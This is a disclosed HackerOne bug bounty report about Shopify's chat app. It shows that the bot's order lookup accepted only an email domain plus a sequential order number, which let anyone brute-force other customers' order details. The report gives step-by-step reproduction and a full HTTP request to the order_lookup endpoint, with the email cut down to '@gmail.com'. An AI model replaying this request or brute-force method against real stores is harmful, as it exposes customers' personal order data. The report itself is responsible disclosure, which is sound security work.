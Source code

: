 # Disclose customer orders details by shopify chat application.

## Report Details
- **Report ID**: 968165
- **URL**: https://hackerone.com/reports/968165
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-26T23:36:09.774Z
- **Disclosed**: 2022-05-14T14:33:41.032Z

## Reporter
- **Username**: zambo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hello Shopify Security Team!

 Bug Summary:
=============

This bug leads to disclose any store orders details ( including sensitive informations), through shopify chat app. the chat app can retrieve the orders details for unauthorized  user.

 Reproduction steps:
=============
  - install shopify chat applications.

Start Exploit : 
=============
+ Go to targeted store : 
+ Start a chat using the app.
+ Click on _I need an update on my order_.
+ fill out the Order ID and Email. ( fill the info randomly if you want to).
+ The bot respond.

█████


Exploit
=============

 Remove the first part of the email (keep only @hotmail/gmail/yahoo...).
 In normal situation the orders IDs start form #1000, and in the verification required the email and ID, So the attacker can brut force on the ID and retrive the order information of that ID with the same email  ISP because we removed the first email part.

 Request : 
=============

```
POST /api/storefront/conversations/lx9vF-DR31d1ePOOCS0Uw2lFUUBjhNqmMTOdkeM631M/order_lookup HTTP/1.1
Host: shopify-chat.shopifycloud.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://okbay44.myshopify.com/
Content-Type: application/json
X-Shopify-Chat-Shop-Identifier: █████████
Origin: https://okbay44.myshopify.com
Content-Length: 113
DNT: 1
Connection: close

{"order_lookup":{"email":"@gmail.com","order_number":"1005","user_token":"███"}}

```

Response :
=============

█████

## Impact

Retrive any customers data.

## Attachments
No attachments
